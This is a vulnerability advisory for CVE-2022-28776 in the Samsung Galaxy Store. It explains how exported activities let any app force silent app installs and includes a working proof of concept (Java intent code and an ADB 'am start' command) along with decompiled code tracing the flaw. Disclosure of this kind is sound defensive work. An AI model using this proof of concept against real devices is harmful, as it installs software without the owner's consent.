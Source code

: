 ```yaml
---
layout: page
title: CVE-2022-28776 Details
permalink: /cves/cve-2022-28776
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/](https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/)

|    **Product**    | Galaxy Store prior to version 4.5.36.4 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-28776             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store contained an issue with how it handled specific intents. When an intent was sent to one of three exported activities, the Galaxy App Store would create a new intent, while taking all of the calling intent's extras and packaging them with the new intent. This new intent could then be manipulated in such a way that the Galaxy App Store would be forced to automatically install other applications onto the victim's device without consent.

## The Exploit

The following exported activities could have been used to exploit this issue:

* `com.sec.android.app.samsungapps.viewpager.InterimActivity`
* `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity`
* `com.sec.android.app.samsungapps.downloadableapps.DownloadableAppsActivity`

As an example, the following Java code could have been used by a third party application to automatically install the application "Pokemon Go". This code uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.viewpager.InterimActivity"));
intent.putExtra("directcall", true);
intent.putExtra("isInternal", true);
intent.putExtra("directInstall", true);
intent.putExtra("installReferrer", "com.sec.android.app.samsungapps");
intent.putExtra("directOpen", true);
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
startActivity(intent);
```

Alternatively, the following ADB command could have been used to install the application "Pokemon Go". This command also uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
am start -n com.sec.android.app.samsungapps/com.sec.android.app.samsungapps.viewpager.InterimActivity --ez directcall true --ez isInternal true --ez directInstall true --es installReferrer com.sec.android.app.samsungapps --ez directOpen true --es GUID com.nianticlabs.pokemongo.ares
```

## Technical Details

Each of the exploitable exported classes contains code that parses the calling intent and creates:

* a data URI that starts with `samsungapps://CategoryList/`
* extracts the intent extras and adds an additional extra Boolean `isFromInterim` and sets it to True (though this extra does not get used later)

The data URI and extras are passed to class `com.sec.android.app.util.DeeplinkUtil` method `openInternalDeeplink`. To show this, below is the code found in class `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity` method `a`:

```
private void a() {
    Bundle extras = getIntent().getExtras();
    if (extras == null) {
        extras = new Bundle();
    }
    extras.putBoolean(DeepLink.EXTRA_DEEPLINK_IS_FROM_INTERIM, true);
    DeeplinkUtil deeplinkUtil = new DeeplinkUtil(this);
    deeplinkUtil.openInternalDeeplink("samsungapps://CategoryList/" + Constant.GALAXY_ESSENTIALS, extras);
}
```

`openInternalDeepLink` creates a new intent, adds the previously captured extras to the intent and adds an extra string sender value of `com.sec.android.app.samsungapps`. Thenewly created intent is sent to class `com.sec.android.app.samsungapps.deeplink.DeepLinkFactory` method `createDeepLink` which will return a deeplink, and set the deeplink as an internal deeplink:

```
public boolean openInternalDeeplink(String str, Bundle bundle) {
    if (!Common.isValidString(str)) {
       return false;
    }
    Intent intent = new Intent();
    intent.putExtra("sender", this.activity.getPackageName());
    intent.setData(Uri.parse(str));
    if (bundle != null) {
        intent.putExtras(bundle);
    }
    DeepLink createDeepLink = DeepLinkFactory.createDeepLink(intent);
    if (createDeepLink == null) {
        return false;
    }
    createDeepLink.setIsInternal(true);
    DeeplinkManager.getInstance().setInternalDeeplink(true);
    DeepLinkFactoryUtil.sendDeeplinkLaunchingLog(createDeepLink.getDeeplinkUrl(), true);
    return createDeepLink.runInternalDeepLink(this.a);
}
```

`createdeeplink` creates a "Product Detail Deeplink" deeplink. This deeplink contains all of the extras that were set in the intent:

```
public static DeepLink createDeepLink(final Intent intent) {
    try {
        final boolean booleanExtra = intent.getBooleanExtra("directcall", false);
        final String stringExtra = intent.getStringExtra("GUID");
        final Bundle extras = intent.getExtras();
        if (booleanExtra && stringExtra != null && stringExtra.length() != 0) {
            final StringBuilder sb = new StringBuilder();
            sb.append("[GADeepLink] ::directcall::");
            sb.append(stringExtra);
            AppsLog.d(sb.toString());
            return DeepLinkFactoryUtil.createProductDetailDeepLink(stringExtra, extras);
        }
```

DeepLink parameters are set via class `com.sec.android.app.samsungapps.utility.deeplink`. DeepLink which sets different values based on the passed intent extras, such as `directInstall`:

```
public void initialize(Bundle bundle) {
    ...
    this.u = getBundleBoolean(bundle, EXTRA_DEEPLINK_DIRECT_INSTALL, false);
    ...
```

The application then automatically processes the newly created "Product Detail Deeplink" deeplink as if it was a standard deeplink. While processing, the class `com.sec.android.app.samsungapps.deeplink. DetailPageDeepLink` method `runInternalDeeplink` is called, which looks for intent extras such as `directInstall`:

```
public boolean runInternalDeepLink(Context context) {
    AppsLog.d(this.a + "::runInternalDeepLink::");
    if (launchApp(context, getDetailID())) {
        return true;
    }
    if (this.isStickerApp) {
        DetailPageHelper.launchStickerDetailFromDeeplink(context, getDetailID(), this.d, getAdSource(), getDeeplinkUrl());
        return true;
    }
    DetailConstant.DETAIL_TYPE detail_type = DetailConstant.DETAIL_TYPE.COMMON;
    if (isForGear()) {
        detail_type = DetailConstant.DETAIL_TYPE.GEAR;
    } else if (a()) {
        detail_type = DetailConstant.DETAIL_TYPE.GAME;
    }
    DetailPageHelper.launchDetailFromDeeplink(context, getDetailID(), detail_type, this.mSignId, this.mQueryStr, getAdSource(), this.b, getSender(), isDirectInstall(), isDirectOpen(), getType(), this.f, getDeeplinkUrl(), this.mEncodedReferrer);
    return true;
}
```

Similar to the bug outlined in [https://yogehi.github.io/cves/cve-2022-22288.html](https://yogehi.github.io/cves/cve-2022-22288.html), class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra` is eventually called again:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

`enableDDI` is called again, but this time it will return true due to the calling intent being an internal deeplink:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

Since `enableDDI` returns true, the target application gets installed.

## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.4 which addresses this issue. Users should update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   17/10/2021   | Issue disclosed to Samsung Mobile Security |
|   17/10/2021   | Issue assigned to a Samsung Security Analyst |
|   22/11/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   13/02/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   12/04/2022   | CVE Assigned |
|   04/05/2022   | Advisory Published |